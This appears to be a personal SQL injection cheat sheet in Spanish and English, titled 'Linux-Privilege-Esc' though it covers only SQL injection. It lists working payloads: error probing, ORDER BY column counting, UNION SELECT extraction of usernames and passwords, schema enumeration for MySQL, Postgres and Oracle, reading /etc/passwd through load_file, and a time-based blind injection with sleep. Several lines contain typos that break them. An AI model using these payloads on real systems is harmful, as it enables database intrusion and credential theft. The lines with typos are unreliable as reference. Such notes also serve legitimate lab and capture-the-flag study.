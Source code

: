 # Linux-Privilege-Esc

SQL INJECTION
**Syntax**
1. SELECT USERNAMES,PASSWORD FROM **TABLE** WHERE ID=X
2. SELECT * FROM **TABLE** //Select all 

**Como IDENTIFICAR**
>1. ' = file?products=Gifts' = ERROR SYNTAX OR 500 INTERNAL ERROR

**DETECTING NUMBER OF COLUMNS**
>1. ORDER BY 1--+    #True
>2. order BY 2--     #True
>3. ORDER BY 3-- -   #True
>4. ORDER BY 4-- -   #False
* The database has 3
           GROUP BY x 
           UNION SELECT NULL,NULL,NULL -- -

**EXTRAER DATA**

> 1. union select NULL,USERNAME,PASSWORD FROM ***TABLE***


***VERSION DE LA BASE Y CONTENIDO***

**Base Version**
*Oracle* 

        SELECT banner FROM v$version
        
        SELECT version FROM v$instance
> *Microsoft and MySQl* 

         version@@
> *Postgres*

        version()
    
**Contenidos**
> 1. union select null,schema_name from information_schema.schemata
> 2. union select null,table_name from infomrmation_schema.tables where table_schema = 'Nombre de la data base'
> 3. union select null,column_name from information_schema.tables where table_name = 'Table name'
> 4. union select x,y from table_nmae
* **ORACLE TYPE**
> 1. union select distinct owner,null from all_tables
> 2. union select owner,table_name from all_tables
> 3. union select column_name,null from all_tab_columns where table_name = 'Nombre de la tabla'
> 4. union select x,y from table_name

**Cheatsheets**
> 1.union select null, version() / Version de la SQL
> 2.union select null,user() / Quien esta usando la base de datos
> 3.union select null,load_file("/etc/passwd")
> 4.union select null,database() / te nombra la base de datos en uso

**Bypass**
> Convertir en Hex tables_schema 

**Blind SQLi**
    Base de datos = Colegio
> 1. union select null, and if(substr(database(),1,1)='c',sleep(5),1);
        Estamos comprobando con la funcion de substr el nombre de la base de datos si empieza por la 'c' y si empieza por la 'c' que tarde 5 segundos en respondernos. Para el segundo valor seria if(substr(database(),2,1)='o',sleep(5),1);

